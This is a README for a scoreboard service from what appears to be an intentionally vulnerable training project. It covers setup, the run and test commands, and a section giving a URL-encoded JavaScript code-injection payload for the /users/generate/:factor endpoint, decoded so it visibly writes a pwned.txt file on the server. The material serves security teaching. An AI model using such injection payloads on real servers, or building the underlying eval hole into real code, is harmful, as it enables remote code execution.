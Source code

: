[![codecov-badge]][codecov]

# Mad Scoreboard Service

## Description

This is a service that generates a list of users with a score. The score is generated randomly and the list is sorted by
the score. The list is returned as a JSON object.

## Installation

### Consuming npm packages from GitHub's NPM registry

This project uses a package from the @MAD-Goat-Project organization's GitHub Package Registry.

To consume npm packages from GitHub's NPM registry follow these steps:

- Create a personal access token with the read:packages scope.
- Create or edit an existing ~/.npmrc file to include the following line, replacing TOKEN with your personal access
  token:
    - //npm.pkg.github.com/:_authToken=TOKEN
- If needed, install the package using the standard yarn add command:
    - yarn add @OWNER/PACKAGE_NAME

An example of a .npmrc file that grants access to the @octokit npm organization:

```bash
@:registry=https://npm.pkg.github.com"
@MAD-Goat-Project:registry=https://npm.pkg.github.com
//npm.pkg.github.com/:_authToken=AUTH_TOKEN
```

Be careful while writing the organization name.

NPM is not case-sensitive, so it doesn't matter if you write @MAD-Goat-Project or @mad-goat-project.

But yarn is case-sensitive, so you have to write @MAD-Goat-Project.

### Installing dependencies

```bash
$ yarn
```

## Running the app

```bash
# development
$ yarn run start

# watch mode
$ yarn run start:dev

# production mode
$ yarn run start:prod
```

## Test

```bash
# unit tests
$ yarn run test

# e2e tests
$ yarn run test:e2e

# test coverage
$ yarn run test:cov
```

## Example of a malicious payload

GET : {{BaseURL}}:{{Port}}/users/generate/:factor
where factor is:

 ```bash
var%20fs%3Drequire%28%22fs%22%29%2Cstream%3Dfs.createWriteStream%28%22pwned.txt%22%2C%7Bflags%3A%22w%22%7D%29%3Bconst%20megabyte%3D%221000000%22%2CoutputStr%3D%22yougotpwned%22%3Bfor%28var%20i%3D0%3Bi%3Cmegabyte%2FoutputStr.length%3Bi%2B%2B%29%20%7Bstream.write%28%22yougotpwned%22%29%3B%7Dstream.end%28%29%3B
 ```

This malicious payload will create a file named pwned.txt in the root directory of the server.
Corresponds to this JavaScript code:

```bash
var fs=require("fs"),stream=fs.createWriteStream("pwned.txt",{flags:"w"});const megabyte="1000000",outputStr="yougotpwned";for(var i=0;i<megabyte/outputStr.length;i++) {stream.write("yougotpwned");}stream.end();
```

[codecov]: https://codecov.io/gh/MAD-Goat-Project/mad-scoreboard-service

[codecov-badge]: https://codecov.io/gh/MAD-Goat-Project/mad-scoreboard-service/graph/badge.svg?token=48RIIR4CKN

